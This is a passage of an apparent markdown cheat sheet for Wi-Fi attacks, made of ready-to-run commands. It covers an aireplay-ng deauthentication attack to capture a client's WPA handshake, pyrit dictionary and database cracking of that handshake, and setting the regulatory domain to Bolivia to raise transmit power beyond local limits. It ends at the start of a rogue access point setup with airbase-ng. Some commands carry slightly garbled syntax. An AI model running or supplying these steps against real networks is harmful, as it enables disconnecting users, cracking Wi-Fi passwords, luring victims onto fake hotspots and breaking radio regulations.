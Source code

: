 3. deauh attack against a client to capture 4WH while it reconnects
`> aireplay-ng -0 1 -a <AP MAC> -c <VicClient MAC> <mon device>`

#### 4.4.2 pyrit features
- analyze the captured 4WH in capture file if it is valid
`> pyrit -r <4WH capture file> analyze`

- removing all the overhead and unnecessary packets in a 4WH capture file
`> pyrit -r <4WH capture file> -o <output filename> strip`

#### 4.4.3 dictionary attack
- basic dictionary attack
`> pyrit -r <4WH stripped capture file> -i <wordlist> -b <AP MAC> attack_passthrough`


#### 4.4.4 database attack
- see db content
`> pyrit eval`

- import wordlist in db
`> pyrit -i <wordlist> import_passwords`

- add essid to db
`> pyrit -e <AP name> create_essid`

- create PMKs
`> pyrit batch`

- run db attack
`> pyrit -r <4WH stripped capture file> attack_db`

- list GPU and CPU cores
`> pyrit list_cores`

- run benchmark test
`> pyrit benchmark`

## 5. rogue access points

If you are in Bolivia:  Amp up the TX power of the wireless card.

1. set wifi regulation to Bolivia (1000mW / 30 dBm are allowed)
`> iw reg st BO`

2. set your tx power to 30 dBm
`> iw config <device> txpower 30`

### 5.1 airbase-ng
Main idea is to associate a fake AP.
Answer every probe with a valid answer.
prep by place dev in monitoring mode.


#### 5.1.1 basic fake AP without encryption
- start basic fake AP
`airbase-ng -c 3 -e <name e.g. freewifi> <mon dev>`
